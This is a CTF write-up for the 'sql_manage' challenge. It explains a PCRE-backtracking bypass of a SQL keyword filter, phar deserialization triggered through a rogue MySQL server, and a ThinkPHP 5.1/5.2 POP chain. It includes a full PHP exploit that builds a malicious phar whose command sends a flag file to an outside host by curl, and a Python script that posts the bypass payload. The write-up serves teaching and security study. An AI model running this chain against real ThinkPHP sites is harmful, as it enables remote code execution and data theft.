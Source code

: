 [中文](./README.md) [English](./EN_writeup.md)

### Foreword
The idea of ​​this challenge comes from[TSec 2019 议题 PPT：Comprehensive analysis of the mysql client attack chain](https://paper.seebug.org/998/)，But the core of the investigation is the tp5.2 deserialization vulnerability mining(Expected solution can be broken tp5.1.x and tp5.2.x).

### regular expression back track
This point @PHITHON in `codebreaking` has been out of the problem.
[https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

```php
if(preg_match('/sleep|BENCHMARK|processlist|GET_LOCK|information_schema|into.+?outfile|into.+?dumpfile|\/\*.*\*\//is', $query)) {
    die('Go out!!!');
}
```
Using the `select xx into/*(1000000*a)*/dumpfile;`you can pass it.

### Mysql Phar Unserialize
A long time ago, @zsx in the article[Phar与Stream Wrapper造成PHP RCE的深入挖掘](https://xz.aliyun.com/t/2958)that LOCAL mysql could trigger Phar Unserialize
![image.png](./img/1.png)
There is a mention of the local limitations of these two configurations.
```
[mysqld]
local-infile=1
secure_file_priv=""
```
However, it is also limited to `open_basedir`
![image.png](./img/2.png)
Which is actually the reason that using`Rogue Mysql Server`can only read files in `/tmp`.
In addition, the mysql user needs to have `insert` permissions, otherwise an error will be reported. 
Therefore, it is not possible to directly execute `LOAD DATA LOCAL INFILE` in the challenge to trigger phar unserialize.

@LoRexxar' shared topic [https://paper.seebug.org/998/](https://paper.seebug.org/998/) at this year's Tsec. In his topic, he mentioned that `mysql client` can use any file read to do phar unserialize with trick above.The principle is that when `Mysql Client` sends any query statements to `Rogue Mysql Server`, `Rogue Mysql Server` can reply a `file-transfer` request containing the file name it wants to read. And then ask Mysql Client to execute `LOAD DATA LOCAL INFILE `statement to read out the file and send it to Rogue Mysql Server. At the moment, we change the filename format to `phar://filename` and let it execute the `LOAD DATA LOCAL INFILE` statement to trigger phar unserialize.

### Tp5.1.x - 5.2.x deserialization POP chain analysis

The first is the entry point
`think\process\pipes\windows`
![image.png](./img/3.png)

`file_exists` can trigger `__toString` method
![image.png](./img/4.png)

Global search `__toString` method, follow up`think\model\concern\Conversion`
![image.png](./img/5.png)

View its `toJson` method, Continue to follow up `toArray` method。
![image.png](./img/6.png)


Let's take a look `getAttr` method.
![image.png](./img/8.png)
![image.png](./img/9.png)


follow up `getValue`，The vulnerability is here.
![image.png](./img/10.png)
We go back in time`$closure，$value，$this->data`

`$closure = $this->withAttr[$fieldName];`，We can control`$this->withAttr`
`$fieldName = $this->getRealFieldName($name);`
follow up`getRealFieldName`
![image.png](./img/11.png)

`$strict` default is true，so the incoming string will be returned as is.
![image.png](./img/12.png)


Incoming is `$name`，Also a parameter `$key` of `getAttr`，It is also the key name of `$data`. 
`$data` is the result of the combination of `$this->data, $this->relation`, so `$closure` is controllable.
![image.png](./img/13.png)

Look at `$value` and follow up the `getData` method.
![image.png](./img/14.png)

If `$this->data` exists in the `$fieldName` key name, the corresponding key value is returned. According to the above analysis, we can just enter the if, and the return value of `$value` is the corresponding to `$closure`. Key value, so `$value` is also controllable.
![image.png](./img/15.png)

Looking back at the vulnerability point, `$closure, $value` we are all controllable, and `$this->data` is an array we use to control the return value of `$closure, $value`.
![image.png](./img/16.png)

How can we use it at this time?
Example:
![image.png](./img/17.png)


I have not carefully looked for other utilization functions, and interested teachers can look for them.

exp:
This exp is my source of tp5.1 source construction and 5.2 is a bit different, but can be used directly.

```php
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = array($files);
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
        protected $append = array("Smi1e" => "1");
    }

    trait Attribute
    {
        private $data;
        private $withAttr = array("Smi1e" => "system");

        public function get($system)
        {
            $this->data = array("Smi1e" => "$system");
        }
    }
}
namespace think {
    abstract class Model
    {
        use model\concern\Attribute;
        use model\concern\Conversion;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
        public function __construct($system)
        {
            $this->get($system);
        }
    }
}

namespace {
    $Conver = new think\model\Pivot("curl http://vps/ -d '`tac /flag`';");
    $payload = new think\process\pipes\Windows($Conver);
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $phar->setMetadata($payload); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
    echo urlencode(serialize($payload));
}
?>
```

### sql_manage
First find the mysql username and password in the source configuration file.
![image.png](./img/18.png)

View writable directory
![image.png](./img/19.png)

Construct a phar file and use regular expression back track to bypass the limit write file

```php
if(preg_match('/sleep|BENCHMARK|processlist|GET_LOCK|information_schema|into.+?outfile|into.+?dumpfile|\/\*.*\*\//is', $query)) {
        die('Go out!!!');
 }
```

```python
#coding=utf-8
import requests
url = "http://47.91.213.248:8001/query"
a = 'a'*1000000
data = {
    "query": "select 0x123456 into/*{}*/dumpfile '/tmp/smi1e123.phar';".format(a),
    "code": "nuk9"
}
cookie = {
    "PHPSESSID":"ik01ngjcquttltalvf7vk6aqap"
}

print(requests.post(url=url,data=data,cookies=cookie).text)
```

`load_file` can see that the write is successful.
![image.png](./img/20.png)

Use this project [https://github.com/Gifts/Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server) 
Change the file name to phar format
![image.png](./img/21.png)

The host is changed to the `Rogue-MySql-Server` host, and the username and password are free.
![image.png](./img/22.png)

The server `nc`, then execute any sql statement to trigger the phar unserialize to receive the flag.
![image.png](./img/23.png)

Afterword
Since it is similar to ByteCTF and TMCTF, there are not many teachers in this problem. I also encountered many problems when I wrote the question. Although this topic is not very good, I still want to say it is not easy. So I hope the teachers take it seriously.